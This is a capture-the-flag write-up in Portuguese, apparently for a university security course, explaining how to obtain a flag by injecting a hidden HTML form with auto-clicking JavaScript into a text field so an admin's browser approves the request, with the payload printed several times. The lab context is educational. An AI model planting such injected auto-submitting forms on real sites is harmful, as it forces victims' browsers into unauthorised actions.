



# CTF6

Ao entrar no site e colocando algo no campo de texto com a justificação para obter a flag, conseguimos a seguir chegar à página do admin, ao carregar em "page". 


 
Onde é possível ver que a página do admin muda para a porta 5005 em vez da 5004 e, inspecionando a página, verificamos que o form do request tem a seguinte estrutura:



```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/fd6edcc0bf22cea333f4b2dd95c9ba7a429d463e/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```


Onde "fd6edcc0bf22cea333f4b2dd95c9ba7a429d463e" é o request id que nos é dado na página inicial. Logo, podemos adaptar um novo form com o objetivo de aceitar o pedido. 

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```


Portanto, voltando à página inicial e colocando este novo form na 'justificação', mas com o request id que nos é dado nessa página, temos algo deste género:


``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d017767734bfe2c6e391e8d5606caecafebd4c85/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```
e com isso damos o 'Submit'.

Somos passados para o url da ação do form, no entanto vai nos ser avisado que não temos permissões para tal.



Para combater isso, vamos impedir o redirecionamento do nosso lado, mas vamos manter o redirecionamento do lado do admin. (desativando o JavaScript do nosso lado)
Google Chrome -> Definições -> Privacidade e Segurança -> Definições de Sites -> JavaScript -> (Sem autorização para usar JavaScript) Adicionar ->


Vamos então fazer isto de novo, agora sem o redirecionamento da nossa parte.
 
Aqui já verificamos que o redirecionamento já não foi realizado para a página do admin, mas sim para a certa. Contudo o request não foi validado.



Como desativamos o JavaScript, a página já não dá os constantes reloads que estava a dar, logo faremos isso manualmente:


E dessa forma conseguimos a Flag!


